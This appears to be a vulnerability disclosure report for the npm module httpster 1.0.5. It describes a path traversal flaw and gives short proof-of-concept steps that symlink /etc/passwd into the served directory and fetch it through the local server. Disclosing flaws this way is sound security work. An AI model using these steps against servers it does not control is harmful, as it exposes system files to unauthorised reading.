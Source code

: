 # Description

I would like to report a Path Traversal vulnerability in the httpster module. It allows an attacker to read system files via a Path Traversal vulnerability. With a symbolically linked file in the working directory, it is possible to read arbitrary files outside of the web root directory.

# Module

Module name: httpster
Version: 1.0.5 (latest)

# Module Description

Simple http server for quick loading of content.

# PoC

1) Install the httpster module
`$ npm -g install httpster`

2) Make a directory
`$ mkdir test`

3) Go to 'test' directory
`$ cd test`

4) Create a symlink file
`ln -s /etc/passwd 'filename'`

5) Run httpster module
`$ httpster`

6) Request the file within browser
`http://localhost:3333/'filename'`

# Impact

This could have enabled an attacker to view system files and leverage attacks like remote code execution.
